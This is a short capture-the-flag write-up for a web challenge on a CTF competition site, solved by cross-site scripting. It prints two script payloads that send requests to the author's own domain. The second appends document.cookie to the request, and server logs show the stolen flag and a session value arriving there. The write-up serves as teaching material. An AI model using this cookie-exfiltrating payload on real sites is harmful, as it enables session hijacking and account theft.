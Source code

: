 You need to get the flag from https://govagriculture.web.ctfcompetition.com/

- It seems as there is no XSS Protection, so i tryed following text:
> &lt;script&gt;
> var xhttp = new XMLHttpRequest();
> xhttp.open("GET", "https://mydomain.com/ctf", true);
> xhttp.send();
> &lt;/script&gt;

- Looking at the logs, I can see that the code is being executed:
> [22/Jun/2019:23:29:09 +0200] "GET /ctf HTTP/1.1" 200 8416 "https://govagriculture.web.ctfcompetition.com/pwn?msg=%3Cscript%3E%0D%0Avar+xhttp+%3D+new+XMLHttpRequest%28%29%3B%0D%0Axhttp.open%28%22GET%22%2C+%22https%3A%2F%2Fmydomain.com%2Fctf%22%2C+true%29%3B%0D%0Axhttp.send%28%29%3B%0D%0A%3C%2Fscript%3E" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3827.0 Safari/537.36"

- So lets try to get the cookies

> &lt;script&gt;
> var xhttp = new XMLHttpRequest();
> xhttp.open("GET", "https://mydomain.com/ctf?" + document.cookie, true);
> xhttp.send();
> &lt;/script&gt;

- An there is our flag in the logs:

> [22/Jun/2019:23:32:34 +0200] "GET /ctf?flag=CTF{8aaa2f34b392b415601804c2f5f0f24e};%20session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV HTTP/1.1" 200 8364 "https://govagriculture.web.ctfcompetition.com/pwn?msg=%3Cscript%3E%0D%0Avar+xhttp+%3D+new+XMLHttpRequest%28%29%3B%0D%0Axhttp.open%28%22GET%22%2C+%22https%3A%2F%2Fmydomain.com%2Fctf%3F%22+%2B+document.cookie%2C+true%29%3B%0D%0Axhttp.send%28%29%3B%0D%0A%3C%2Fscript%3E" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3827.0 Safari/537.36"

> CTF{8aaa2f34b392b415601804c2f5f0f24e}